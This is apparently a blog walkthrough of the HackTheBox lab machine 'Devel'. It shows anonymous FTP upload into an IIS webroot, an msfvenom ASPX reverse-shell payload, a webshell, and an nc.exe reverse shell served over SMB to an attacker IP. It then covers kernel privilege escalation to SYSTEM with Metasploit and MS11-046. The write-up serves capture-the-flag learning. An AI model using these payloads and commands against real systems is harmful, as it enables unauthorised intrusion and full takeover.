


Welcome back, today we'll be working through "Devel", an easy machine that takes a little bit more work at the end. I'll show the manual (OSCP-valid) way, the Metasploit approach can be found in the offical writeup.

## Enumeration

```bash
$ sudo nmap -sV -sC 10.10.10.5

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-19 11:50 CEST
Nmap scan report for 10.10.10.5
Host is up (0.0059s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds
```

We have just 2 ports open: FTP and HTTP. We can see we are dealing with a Windows box. Two files and a directory are present on the FTP server.

## Exploration

To start, let's check out the HTTP server on port 80:



Let's "View Source":

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
    <title>IIS7</title>
    <style type="text/css">
      /* ... */
    </style>
  </head>
  <body>
    <div id="container">
      <a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"
        ></a>
    </div>
  </body>
</html>
```

Notice the `welcome.png`? We also noticed a `welcome.png` on the FTP server. Time to investigate the FTP server:

```bash
$ echo "hello world" > kaas.txt

$ ftp anonymous@10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

ftp> put kaas.txt
local: kaas.txt remote: kaas.txt
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|    13      453.40 KiB/s    --:-- ETA
226 Transfer complete.
13 bytes sent in 00:00 (2.21 KiB/s)

ftp> dir
229 Entering Extended Passive Mode (|||49161|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
04-19-25  01:13PM                   13 kaas.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

As you can see, I managed to log in anonymously and then uploaded a file. Now comes the fun part:

```bash
$ curl 10.10.10.5/kaas.txt

hello world
```

We can upload files to the root of the FTP server without providing a password, and the FTP root is also the directory that the web server is serving! How can we abuse this? We are dealing with a `Microsoft IIS httpd 7.5` server. This support ASP.NET with file types `.asp` and `.aspx`. If we can craft a "webshell" of this format we can execute code on the webserver! Let's get started!

## Metasploit Masterpiece

With the use of Metasploit we can crack this machine wide open in minutes!

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=1312 -f aspx > devel.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2879 bytes

$ ftp anonymous@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put devel.aspx
local: devel.aspx remote: devel.aspx
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
100% |****************************************************************|  2919       71.37 MiB/s    --:-- ETA
226 Transfer complete.
2919 bytes sent in 00:00 (250.57 KiB/s)
ftp> exit
221 Goodbye.
```

Now we have our payload uploaded, time to get our listener ready so we can trigger the reverse shell:

```
$ msfconsole
Metasploit tip: Save the current environment with the save command,
future console restarts will use this environment again


                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.4.50-dev                          ]
+ -- --=[ 2495 exploits - 1283 auxiliary - 393 post       ]
+ -- --=[ 1607 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1312
LPORT => 1312
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.17:1312
```

Okay, now we trigger:

```
$ curl 10.10.10.5/devel.aspx
```

And return our attention to the Metasploit console:

```
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.17:1312 -> 10.10.10.5:49181) at 2025-04-19 19:47:16 +0200

meterpreter > getuid
Server username: IIS APPPOOL\Web
```

We have our shell! But we have service account permissions. We'll need to escalate our privileges to claim the flags! How? We should let Metasploit figure that out:

```
meterpreter > cd c:\\windows\\temp

meterpreter > pwd
c:\windows\Temp
```

Now `Ctrl+Z` to background:

```
Background session 1? [y/N]
msf6 exploit(multi/handler) >
```

And then load up `local_exploit_suggester`:

```
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.
```

We need the session number!

```
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.17:1312 -> 10.10.10.5:49181 (10.10.10.5)
```

Okay, its `1`:

```
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/logging-2.4.0/lib/logging.rb:10: warning: /usr/lib/x86_64-linux-gnu/ruby/3.3.0/syslog.so was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.4.0.
You can add syslog to your Gemfile or gemspec to silence this warning.
Also please contact the author of logging-2.4.0 to request adding syslog into its gemspec.
[*] 10.10.10.5 - 203 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 13  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 17  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 18  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 19  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 20  exploit/windows/local/anyconnect_lpe                           No                       The target is not exploitable. vpndownloader.exe not found on file system
 21  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.
 22  exploit/windows/local/bthpan                                   No                       The target is not exploitable.

 ...

 41  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.
 42  exploit/windows/local/webexec                                  No                       The check raised an exception.

[*] Post module execution completed
```

Now we load up any of the exploits:

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.102.167  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => 10.10.14.17
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 1204 launched.
[*] Reflectively injecting the DLL into 1204...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.17:4444 -> 10.10.10.5:49182) at 2025-04-19 20:04:24 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

And done, we have our administrator shell! For the second part, we'll forget all about this and try the attack ourselves, and we'll come back to claim the flags at the end. If you don't care about the manual approach, you can scroll right to the end of that section to see how we claim the flags.

## Manual Exploitation

Now let's get our hands dirty and prove our worth. We will get the job done without cheating with Metasploit. We cannot use pre-made MSF payloads, so we'll find our own "webshell" of the ASPX format at `/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx`. Let's upload it:

```bash
$ cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .

$ ftp anonymous@10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
229 Entering Extended Passive Mode (|||49162|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
04-19-25  01:13PM                   13 kaas.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
229 Entering Extended Passive Mode (|||49163|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|  1442       35.26 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (246.05 KiB/s)

ftp> exit
221 Goodbye.
```

Now let's go back to the browser and visit `/cmd.aspx`:



Behold, our webshell is ready!


If we provide commands we can see their output after execution!

### Shelling out for a shell

I don't have much experience with Windows reverse shells. As such, I looked at the [writeup by the famous and almighty `0xdf`](https://0xdf.gitlab.io/2019/03/05/htb-devel.html#shell-as-web) to get inspiration for several possible approaches. I'll attempt the `nc.exe` approach here.

The `nc.exe` approach involves moving a Windows version of `netcat` onto the target, which we can then use to establish a reverse shell back to our machine.

```bash
$ locate nc.exe
/var/lib/plocate/plocate.db: No such file or directory

$ sudo updatedb

$ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

$ cp /usr/share/windows-resources/binaries/nc.exe .

$ ls -l
total 64
-rwxr-xr-x 1 kali kali  1400 Apr 19 12:43 cmd.aspx
-rwxr-xr-x 1 kali kali 59392 Apr 19 14:18 nc.exe
```

How do we get the file onto the target? We can set up a SMB server!

```bash
$ impacket-smbserver myshare .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

- My IP address on `tun0` is `10.10.14.17`
- I'll set up a listener on port `1312`:
  ```bash
  $ nc -lvnp 1312
  listening on [any] 1312 ...
  ```

Now we can construct the command to enter into the webshell that will download the `nc.exe` file over SMB, execute it, connecting to our listener on port 1312, and then hooking up the connection to `cmd.exe` providing a shell:

```
\\10.10.14.17\myshare\nc.exe -e cmd.exe 10.10.14.17 1312
```

Back over in our listener tab, we get a connection:

```bash
$ nc -lvnp 1312
listening on [any] 1312 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.5] 49165
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

There we go!

```powershell
c:\windows\system32\inetsrv>cd C:\Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.692.492.288 bytes free

C:\Users>cd babis
Access is denied.
```

We are unable to access the `babis` directory to collect our flag from our current position as a "service account".

```
C:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          19/4/2025, 12:41:04 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.483 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.559 MB
Virtual Memory: In Use:    582 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::78bb:17f7:3d3:f91
                                 [03]: dead:beef::d941:b33c:9b49:709c
                                 [04]: dead:beef::78bb:17f7:3d3:f91
```

`systeminfo` shows `Hotfix(s): N/A`, which might mean we can perform a kernel exploit.

Follow these steps to turn this output into a list of vulnerabilities:

1. Place the `systeminfo` output into a file:
   ```
   $ head -n 5 systeminfo.txt
   Host Name:                 DEVEL
   OS Name:                   Microsoft Windows 7 Enterprise
   OS Version:                6.1.7600 N/A Build 7600
   OS Manufacturer:           Microsoft Corporation
   OS Configuration:          Standalone Workstation
   ```
2. Create a new virtual Python environment:

   ```
   $ python3 -m venv venv

   $ source ./venv/bin/activate

   (venv) $
   ```

3. Install [`wesng`](https://github.com/bitsadmin/wesng) (pointed to this tool by the awesome people in the HackTheBox Discord, after unsuccesfully trying to get 10-year-old scripts to work):

   ```
   (venv) $ pip install wesng
   Collecting wesng
     Using cached wesng-1.0.3-py3-none-any.whl.metadata (6.7 kB)
   Using cached wesng-1.0.3-py3-none-any.whl (18 kB)
   Installing collected packages: wesng
   Successfully installed wesng-1.0.3

   (venv) $ ./venv/bin/wes
   WARNING:root:chardet module not installed. In case of encoding errors, install chardet using: pip3 install chardet
   usage: wes [-u] [--definitions [DEFINITIONS]] [-p INSTALLEDPATCH [INSTALLEDPATCH ...]] [-d] [-e]
             [--hide HIDDENVULN [HIDDENVULN ...]] [-i IMPACTS [IMPACTS ...]] [-s SEVERITIES [SEVERITIES ...]]
             [-o [OUTPUTFILE]] [--muc-lookup] [--os [OPERATING_SYSTEM]] [-c] [-h] [--update-wes]
   wes: error: argument --definitions: Definitions file 'definitions.zip' does not exist. Try running wes.py --update first.

   (venv) $ pip install chardet
   Collecting chardet
     Using cached chardet-5.2.0-py3-none-any.whl.metadata (3.4 kB)
   Using cached chardet-5.2.0-py3-none-any.whl (199 kB)
   Installing collected packages: chardet
   Successfully installed chardet-5.2.0

   (venv) $ ./venv/bin/wes
   usage: wes [-u] [--definitions [DEFINITIONS]] [-p INSTALLEDPATCH [INSTALLEDPATCH ...]] [-d] [-e]
             [--hide HIDDENVULN [HIDDENVULN ...]] [-i IMPACTS [IMPACTS ...]] [-s SEVERITIES [SEVERITIES ...]]
             [-o [OUTPUTFILE]] [--muc-lookup] [--os [OPERATING_SYSTEM]] [-c] [-h] [--update-wes]
   wes: error: argument --definitions: Definitions file 'definitions.zip' does not exist. Try running wes.py --update first.

   (venv) $ ./venv/bin/wes --update
   Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )
   [+] Updating definitions
   [+] Obtained definitions created at 20250418
   ```

4. Run the script:
   ```
   (venv) $ ./venv/bin/wes systeminfo.txt > vulnerabilities.txt
   ```

This gives us a massive list:

```
(venv) $ cat vulnerabilities.txt
Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 7 for 32-bit Systems
    - Generation: 7
    - Build: 7600
    - Version: None
    - Architecture: 32-bit
    - Installed hotfixes: None
[+] Loading definitions
    - Creation date of definitions: 20250418
[+] Determining missing patches
[!] Found vulnerabilities!

Date: 20130409
CVE: CVE-2013-1283
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1291
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1292
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1293
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:

...

    - KB978542: patches 1 vulnerability
    - KB975560: patches 1 vulnerability
    - KB972270: patches 1 vulnerability
    - KB975467: patches 1 vulnerability
    - KB3142024: patches 1 vulnerability
    - KB4012212: patches 1 vulnerability
[-] Missing service pack
    - Update for Windows 7 (KB3125574)
[I] KB with the most recent release date
    - ID: KB4012212
    - Release date: 20170314
[+] Done. Displaying 236 of the 236 vulnerabilities found.
```

236 vulnerabilities! How do I pick? I honestly don't know! Based on what others used, I'll go with `MS11-046` (`CVE-2011-1249`). It's likely many others would have worked too, but it was quick to find a exploit file for this one so I'm going with it:

```
Date: 20110614
CVE: CVE-2011-1249
KB: KB2503665
Title: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```

I found a `.exe` exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046):

```
$ wget https://github.com/abatchy17/WindowsExploits/raw/refs/heads/master/MS11-046/MS11-046.exe

...

Saving to: ‘MS11-046.exe’

MS11-046.exe                100%[=========================================>] 110.17K  --.-KB/s    in 0.02s

2025-04-19 18:12:45 (6.60 MB/s) - ‘MS11-046.exe’ saved [112815/112815]
```

It's saved to the directory where we have been running the SMB server since earlier, so we can simply execute it that way:

```
c:\windows\system32\inetsrv>\\10.10.14.17\myshare\MS11-046.exe

c:\Windows\System32>whoami
nt authority\system
```

And that worked! We'll take our well-deserved flags home:

```
c:\Windows\System32>cd C:\Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.692.312.064 bytes free

C:\Users>type babis\Desktop\user.txt
2a9f0d928f054c4f92cc6b6241******

C:\Users>type Administrator\Desktop\root.txt
f9401b9389e48d2c551552b9d1******
```

## Conclusion

This one was difficult, I have barely any experience with Windows privilege escalation,so I took plenty of inspiration from `0xdf` and `initinfosec`. Thanks to them for their guiding assistence!
